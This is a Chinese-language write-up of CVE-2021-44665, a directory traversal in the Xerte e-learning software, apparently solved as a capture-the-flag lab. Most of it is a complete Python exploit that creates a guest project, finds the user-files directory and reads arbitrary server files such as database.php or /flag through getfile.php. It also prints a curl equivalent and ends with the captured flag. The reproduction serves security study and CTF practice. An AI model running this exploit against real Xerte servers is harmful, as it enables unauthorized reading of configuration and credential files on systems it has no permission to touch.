

# CVE-2021-44665（Xerte目录遍历）


<div style="text-align: right;">

date: "2023-01-23"

</div>


## 漏洞描述

- Xerte是英国The Xerte Project社区的一个开源软件。用于创作学习对象。
- Xerte存在安全漏洞，该漏洞通过伪装成语言文件的项目接口上传一个恶意制作的php文件，以绕过上传过滤器。攻击者可利用该漏洞可以通过滥用“mediapath”变量中的路径遍历来操纵文件的目的地。


## 漏洞原理

- 通过 download.php 下载项目文件时，Xerte 项目 Xerte 至 3.10.3 中存在目录遍历漏洞。

## 漏洞复现

通过修改xerte_base_url和file_to_grab参数可以达到读取特定文件的效果，代码如下：

```python
# Exploit Title: Xerte 3.10.3 - Directory Traversal (Authenticated)
# Date: 05/03/2021
# Exploit Author: Rik Lutz
# Vendor Homepage: https://xerte.org.uk
# Software Link: https://github.com/thexerteproject/xerteonlinetoolkits/archive/refs/heads/3.9.zip
# Version: up until 3.10.3
# Tested on: Windows 10 XAMP
# CVE : CVE-2021-44665

# This PoC assumes guest login is enabled. Vulnerable url:
# https://<host>/getfile.php?file=<user-direcotry>/../../database.php
# You can find a userfiles-directory by creating a project and browsing the media menu.
# Create new project from template -> visit "Properties" (! symbol) -> Media and Quota -> Click file to download
# The userfiles-direcotry will be noted in the URL and/or when you download a file.
# They look like: <numbers>-<username>-<templatename>

import requests
import re

#xerte_base_url = "http://127.0.0.1"
#file_to_grab = "/../../database.php"
xerte_base_url = "http://eci-2zehxz245445dq6y1sdy.cloudeci1.ichunqiu.com"
file_to_grab = "/../../../../../flag"
php_session_id = "" # If guest is not enabled, and you have a session ID. Put it here.

with requests.Session() as session:
    # Get a PHP session ID
    if not php_session_id:
        session.get(xerte_base_url) 
    else:
        session.cookies.set("PHPSESSID", php_session_id)

    # Use a default template
    data = {
        'tutorialid': 'Nottingham',
        'templatename': 'Nottingham',
        'tutorialname': 'exploit',
        'folder_id': ''
    }

    # Create a new project in order to create a user-folder
    template_id = session.post(xerte_base_url + '/website_code/php/templates/new_template.php', data=data)

    # Find template ID
    data = {
        'template_id': re.findall('(\d+)', template_id.text)[0]
    }

    # Find the created user-direcotry:
    user_direcotry = session.post(xerte_base_url + '/website_code/php/properties/media_and_quota_template.php', data=data)
    user_direcotry = re.findall('USER-FILES\/([0-9]+-[a-z0-9]+-[a-zA-Z0-9_]+)', user_direcotry.text)[0]

    # Grab file
    result = session.get(xerte_base_url + '/getfile.php?file=' + user_direcotry + file_to_grab)
    print(result.text)
    print("|-- Used Variables: --|")
    print("PHP Session ID: " + session.cookies.get_dict()['PHPSESSID'])
    print("user direcotry: " + user_direcotry)
    print("Curl example:")
    print('curl --cookie "PHPSESSID=' + session.cookies.get_dict()['PHPSESSID'] + '" ' + xerte_base_url + '/getfile.php?file=' + user_direcotry + file_to_grab)
 
```



获取flag为：flag{3fa16aa7-83ec-4ef5-94f7-9aa84e540433}
